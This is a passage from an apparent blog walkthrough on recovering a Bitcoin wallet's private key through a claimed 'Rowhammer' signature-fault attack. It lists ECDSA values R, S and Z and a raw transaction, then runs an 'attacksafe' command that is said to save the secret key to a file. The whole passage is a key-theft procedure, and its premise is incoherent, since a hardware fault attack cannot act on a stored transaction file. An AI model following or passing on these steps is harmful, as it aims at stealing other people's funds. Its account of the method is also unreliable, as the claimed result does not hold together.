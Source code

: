 

<pre class="wp-block-code"><code>R = 0x682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e88
S = 0x052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9
Z = 0x395e27708f075827fc7b179382a2a5e13c7649a046a89f2937bc5754349cc05d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool rowhammer_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-154-1024x298.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1278"></figure>



<p>We launched this attack from&nbsp;<code>-tool rowhammer_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>
